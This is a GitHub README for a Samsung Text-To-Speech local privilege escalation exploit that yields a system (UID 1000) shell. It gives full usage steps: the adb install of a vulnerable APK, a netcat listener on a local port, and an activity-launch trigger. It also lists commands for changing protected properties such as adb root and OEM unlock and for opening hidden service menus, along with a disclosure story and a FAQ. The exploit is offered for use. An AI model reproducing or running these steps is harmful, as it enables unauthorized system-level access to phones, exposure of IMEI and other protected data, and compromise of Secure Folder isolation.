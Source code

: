 # K0mraid3s-System-Shell
Simple guide -- 

1 Install all the apks, open atleast once.
2 Reboot, when device reboots, run the following command from ADB.
"adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk 
"
3 in one console, type ```nc -lp 9999```
4 Run the following command in a second console: ```adb shell am start -n com.samsung.SMT/.gui.DownloadList```

DONE. 

if you have issues with it not starting, uninstall SMT (Samsung Text-To-Speech) completely, then reinstall the vuln version and try again from step 3 onward. 




PATCHED AS OF 02/2023
As seen on XDA before the public disclousure was removed by XDA Moderators.
It will otherwise remain unchanged here as an archive.

This is expected to work for EVERY single Samsung Mobile Device made TO-DATE (01/19/2023)

THIS IS ACTIVELY IN DEVELOPMENT - Our goal is to make it more user friendly. and easier to use, so please note things will change and updates will come at any given time, and there is almost certainly bugs to be found and encountered along the way during this, so if you find issues, just let us know here or in support chat, we are VERY active, and can usually get back to you in a few mins. I Will be dynamically updating this repo as things progress, keeping it up-to-date with our current progress.


This is an EXPLOIT to get a System based shell (UID 1000) on ANY Samsung Mobile Device. No clue if or when it will be patched, but has worked on every single Samsung Device tested so far.
THIS IS THE EQUILIVELENT OF DOING su system but this DOES NOT invoke or need "su" in any way.
This DOES NOT trip Knox.
This DOES NOT give you ROOT (UID 0)
This DOES NOT directly unlock your bootloader, although you may be able to find a way to do so using this exploit as a tool.
If you use this for your own works, Please give credit.
Next best thing to root on devices without BootLoader Unlock Option.


Cool things that work:
Access to most of /efs /efs/imei /efs/sec_efs /efs/FactoryApp - Access to most of /data /data/system /data/user/0/ANY_SYSTEM_APP - The "Insthk" bin becomes useable, - Secure Folder/Separated Apps becomes COMPLETELY compromised if you also install the POC in it (UID 150_system) - start IOTHidden Menu, DM Mode, Service Mode, Multiple Debugging and hidden menus as well as preconfig in system context- Change many protected props, such as: 
setprop persist.service.adb.root 1
setprop service.adb.root 1
setprop sys.hidden.otatest 1
setprop sys.hiddenmenu.enable 1
setprop persist.sys.knox.device_owner true
setprop persist.sys.usb.qxdm.debug 1
setprop sys.usb.qxdm.debug 1
setprop presist.service.adb.enable 1
setprop persist.sys.usb.qxdm.debug 1
setprop service.adb.enable 1
setprop persist.rollback.is_test true
setprop sys.oem_unlock_allowed 1
aswell as quite a bit more.


Note* You need to be on Wifi or Hotspot to set this up.



Its fairly simple, a Typical Local Privilege escalation.


The Easy Way -
Step 1 - Download "Komraids System Shell.zip", (attached is the latest version) and extract anywhere on desktop.
Step 2 - Push the "samsungTTSVULN2.apk" to /data/local/tmp
Step 3 - Ensure USB Debugging is ON, and computer is authorized. Also make sure power saving is OFF.
Step 4 - Install komraids_POC_V1.5.apk, reboot device.
Step 5 - When device is fully rebooted and unlocked, run systemshell.exe
Step 6 - You should now be in a shell with UID 1000. Enjoy. Be careful with what you mess with.

Things to note: The.exe only needs to be run once after each reboot, you can use it if you prefer, or, you can manually open a system shell yourself, by following Step 5, from "How it works?" below.


How it works? (sh** for security researchers, devs etc)


Step 1 - Install the included "komraids_POC_V1.5.apk" to the device, then push the included "samsungTTSVULN2.apk" to /data/local/tmp (adb push samsungTTSVULN2.apk /data/local/tmp) -> I advice disabling all battery optimizations for Samsung TTS and Shell, otherwise, it cuts off the shell from time to time.

Step 2 - Make sure ADB is on, Connected and authorized and all power saving is off (as mentioned above) Reboot device.

Step 4 - When device reboots, run this command from ADB. adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk ---> it will return "Success" when done.

Step 5 - Now, open two shells, in the first, do nc -lp 9997 & in the second, do am start -n com.samsung.SMT/.gui.DownloadList -> Look back at the first shell., it should have opened into a new system (UID 1000) shell.

SMT has a receiver that blindly accepts stuff, so a carefully crafted apk (Our "komraids_POC_v1.5.apk") can trick it into loading our neat lib which opens a shell for us on localhost port 9997!

NOTE: You can use something like AppManager, seen here, or another App installer/manager to launch the SMT activity in step 5, and make a shortcut to it on your home screen for easy of access.




You are now UID 1000. Enjoy.



FAQ
Why wont it connect/open the system shell?
Various reasons can cause this, one of the most common is "Battery Optimizations", a form of power saving that can kill our apps. Power Saving is the number one issue for problems with this exploit. Second most common is forgetting to sort out Wifi to STATIC and, believe it or not, turning on ADB. So make sure you either have a full battery and all power saving features are OFF, or are plugged in via USB.
Why does this exist?
Idk, it was supposed to have been patched back in 2019, obviously it wasn't sufficient.

How do I prevent someone from hacking me with this?
Simple, be Offensive, set it up and lock up the lib/port, once your using this exploit, no others can because they cant load a second lib of the same. (the vuln is the lang packs for samsung Text-to-speech, SMT's receiver blindly accepts sh**) -- or, Disable or Remove Samsung Text-To-Speech.

How do I use this in Termux or other Terminal Emulators?
You will need to use the manual way, as described in Step 5 of "How it works?"

I cant get it to work, can anyone help?
Yes, post here or go to our Telegram Group for support, here (click me)

Can this work with LSPosed/LSpatch?
Yes, but it has its limitations currently. I've tested a few modules myself, some work, some don't.

Will this work with Magisk or Shizuku?
Yes, But it depends on @topjohnwu and @Rikka, respectfully, to give the green light to me to incorporate this and post those here or post their compatible versions here on their own. I am open to working with them and have already seen and used a working Shizuku mod using this Exploit, but out of respect, I cannot share it yet.

Will you share the source code?
Yes, I have plans to setup a (public) GitHub repo for this in the near future.


How do i open Hidden stuff?
For now, we will need to do it manually, so try these from System shell
This opens IOTHiden menu
am start -n com.sec.hiddenmenu/.IOTHiddenMenu -e 7267864872 72678647376477466
This opens CID Managers "Preconfig"
am start -n com.samsung.android.cidmanager/.modules.preconfig.PreconfigActivity -a com.samsung.android.action.SECRET_CODE -d secret_code://27262826 --ei type 2 
This opens the DM Mode on/off Toggle
am start -n com.sec.hiddenmenu/.DmMode -e 7267864872 72678647376477466
Ill add more interesting and useful commands/things to do as time goes on. Please do drop any cool things you find here!


BACK STORY:
Its full or drama and BS. I reported this to Samsung in October 2022, but they have decided this is GOOGLES problem and forgot to tell me their decision. LONG STORY CUT SHORT, Between the time Samsung decided this was GOOGLES problem and them telling me of that decision, somehow, "another external security researcher" reported this exact thing to google in the context it was their find. IDK who, nor do I really care at this point. Its done and over with, but stuff like this is what makes some security researches ever hesitant to share their finds, even with the shady vendors/OEMS.

Don't be dumb, I'm not responsible for any dumb sh*t you do.
PWNED - K0mraid3 2022-10-06 175216.png


Big shout out to @wr3cckl3ss1 and alll the others for the help testing, debugging and the massive amount more done to help get this right. It was truely a team effort and nothing less then a labor of love & passion for cybersecurity and learning. I learned more during this project with you guys then I can express.

Huge thanks to @oakieville for the .exe and alot of help tweaking the code of this project.


This project was brought to you by VAULT-TEC Dev Ops!
